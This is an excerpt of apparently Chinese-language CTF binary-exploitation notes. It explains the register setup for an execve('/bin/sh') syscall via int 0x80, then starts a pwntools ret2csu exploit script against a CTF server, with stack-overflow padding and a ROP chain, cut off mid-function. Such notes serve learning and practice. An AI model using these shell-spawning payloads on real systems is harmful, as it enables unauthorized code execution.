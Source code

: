 ```python
```

简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell

`execve("/bin/sh",NULL,NULL)`

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

## `libc2csu`

![Untitled](Stack%2095229ecbb2f1486a9533db3b1ce3a54d/Untitled.png)

```python
from pwn import *
from LibcSearcher import *
# sh = process("./shellcode")

sh = remote("pwn.challenge.ctf.show",'28154')
elf = ELF("./ret2libc_64")
#context.log_level='debug'
write_plt = elf.plt['write']
write_got = elf.got['write']

main_addr = elf.symbols['main']
pop_rdi = 0x04006c3
ret_addr =0x4004a9

csu_end= 0x04006BA               # pop rbx   
csu_front = 0x04006A0            # mov rdx, r13

def csu(rbx,rbp,r12,r13,r14,r15,main_addr):
    payload = b"a"*(0xa0+8) + p64(csu_end)
    payload += p64(rbx)   # 0 
    payload += p64(rbp)    # 1
    payload += p64(r12)   # write_got
    payload += p64(r13)    # 8
```
